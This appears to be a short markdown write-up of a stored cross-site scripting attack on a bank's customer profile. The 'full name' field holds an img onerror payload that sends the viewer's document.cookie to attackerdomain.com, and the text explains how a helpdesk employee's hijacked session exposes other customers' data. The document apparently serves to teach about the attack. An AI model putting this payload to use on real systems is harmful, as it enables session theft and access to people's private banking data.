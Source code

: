 # Attack

###### Provide full name

`Nicolas Cage<img style="display:none"onerror='fetch("http://attackerdomain.com/?cookie="+encodeURIComponent(document.cookie), {mode:"no-cors"})'src=""></img>`

###### Provide new avatar URL

`https://miro.medium.com/max/1200/1*mk1-6aYaf_Bes1E3Imhc0A.jpeg`

Attacker provides above information and calls bank helpdesk. The helpline employee displays the attacker profile. The attacker knows the helpline employee's session ID therefore is able to hijack his session and access other consumers sensitive data.
